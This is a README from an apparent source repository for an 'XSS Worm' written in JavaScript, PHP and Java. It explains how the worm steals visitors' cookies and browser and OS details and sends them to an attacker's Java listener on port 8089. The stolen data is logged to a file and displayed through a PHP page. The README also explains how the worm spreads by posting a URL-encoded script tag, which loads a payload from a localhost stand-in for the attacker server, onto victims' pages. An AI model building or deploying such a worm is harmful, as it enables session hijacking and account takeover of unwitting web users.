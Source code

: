 # XSS-Worm
XSS Worm which steals cookies and some information of victim's, also spreads others. Written in js, php and java.

## Stealing
The worm will send cookies and some other information (like browser and os) to the attacker (attacker presented as localhost in the script).
1. The script inside **javascript/worm.js** need to be embedded into attackers webpage somehow.
2. Attacker will listen a port (8089 in this case) to receive stealed data sent from worm. And incoming data will be printed to a text file (named "cookies.txt"). Here the **tcp/Main.java** program will do the trick.
3. Finally, attacker can display stealed information with **web/innocentwebapp.php** file which parses "cookies.txt" file. Stealed information will be seperated by "#" character in script. when parsing, it will be delimited by "#".
```php
$row_data = explode('#', $data);
```

## Spreading
The worm (**javascript/worm.js**) will spread(post) itself to anyone's webpage who *involuntarily* run itself.
1. Worm has a part which sends a request to **web/agentsmith.php** and post its response to the webpage whom visits the contagious page.(To make the request properly, data must be URL encoded.)
```javascript
var agentsmith = "%3Cscript%20type%3D%5C%22text%2Fjavascript%5C%22%20src%3D%5C%22http%3A%2F%2Flocalhost%2Fagentsmith.php%5C%22%3E%3C%2Fscript%3E";
```

2. If the worm posted succefully to victims webpage, who visits the victims contagious page will be also exploited.
